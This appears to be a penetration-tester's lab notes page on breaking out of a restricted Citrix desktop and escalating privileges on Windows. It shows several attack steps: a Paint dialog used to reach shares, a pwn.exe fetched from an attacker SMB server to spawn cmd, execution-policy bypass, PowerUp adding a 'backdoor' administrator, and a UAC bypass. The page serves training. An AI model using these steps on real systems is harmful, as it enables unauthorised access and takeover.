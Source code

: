 # Citrix Breakout

most company use Citrix to allow employees to work remotely which block things like (CMD, File Explorer)

**Basic Methodology for break-out:**

1. Gain access to a `Dialog Box` like (Open, Save As)
2. Exploit the Dialog Box to achieve `command execution`. → use it to access C driver `\\127.0.0.1\c$\users\pmorgan`
3. `Escalate privileges` to gain higher levels of access → run exe files `C:\Windows\System32\cmd.exe`

**How To join Citrix environment ?**

sign in http://humongousretail.com/remote/ using RDP and use credential

***

## Bypassing Path Restrictions

Run `Paint` from start menu and click on `File > Open` to open the Dialog Box.

![image.png](<../../../.gitbook/assets/image (4).png>)

With the windows dialog box open for paint, we can enter the [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) path `\\127.0.0.1\c$\users\pmorgan` under the File name field

<figure><img src="../../../.gitbook/assets/image 1 (3).png" alt=""><figcaption></figcaption></figure>

### **Accessing SMB share from restricted environment**

Having restrictions set, File Explorer does not allow direct access to SMB shares on the attacker machine, we use UNC path within the Windows dialog box

**Run smb server on Attack box**

```bash
root@ubuntu:/home/htb-student/Tools# smbserver.py -smb2support share $(pwd)

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Back in the Citrix environment, initiate the "Paint" application via the start menu. Proceed to navigate to the "File" menu and select "Open", thereby prompting the Dialog Box to appear. Within this Windows dialog box associated with Paint, input the UNC path as `\\10.13.38.95\share` into the designated "File name" field. Ensure that the File-Type parameter is configured to "All Files." Upon pressing the "Enter" key, entry into the share is achieved.

<figure><img src="../../../.gitbook/assets/image 2 (2) (1).png" alt=""><figcaption></figcaption></figure>

> open pwn.exe to display CMD

```c
// pwn.exe content
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

We can then use the obtained cmd access to copy files from SMB share to pmorgans Desktop directory.

```powershell
# transfer from cmd to PS
powershell -ep bypass
```

![](<../../../.gitbook/assets/2025 07 16_01_15_12 Hack_The_Box_ _Academy_ _Brave.png>)

***

### **Modify existing shortcut file**

1. `Right-click` the desired shortcut.
2. Select `Properties`.
3. Within the `Target` field, modify the path to the intended folder for access.&#x20;

<figure><img src="../../../.gitbook/assets/image 3 (2) (1).png" alt=""><figcaption></figcaption></figure>

***

### **Script Execution**

create file with extension `.bat`, `.vbs`, or `.ps`

<figure><img src="../../../.gitbook/assets/image 4 (2) (1).png" alt=""><figcaption></figcaption></figure>

***

## **Escalating Privileges**

For instance, tools like [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) can also be employed to identify potential security issues and vulnerabilities within the operating system. We can also validate this using the Command Prompt by querying the corresponding registry keys:

```powershell
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

```

&#x20;we can make use of PowerUp, using it's `Write-UserAddMSI` function. This function facilitates the creation of an `.msi` file directly on the desktop. &#x20;

```powershell
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

Now we can execute `UserAdd.msi` and create a new user `backdoor:T3st@123` under Administrators group. Note that giving it a password that doesn’t meet the password complexity criteria will throw an error.

<figure><img src="../../../.gitbook/assets/image 5 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## **Bypassing UAC**

```powershell
C:\Windows\system32> cd C:\Users\Administrator

Access is denied.
```

```powershell
PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep

```
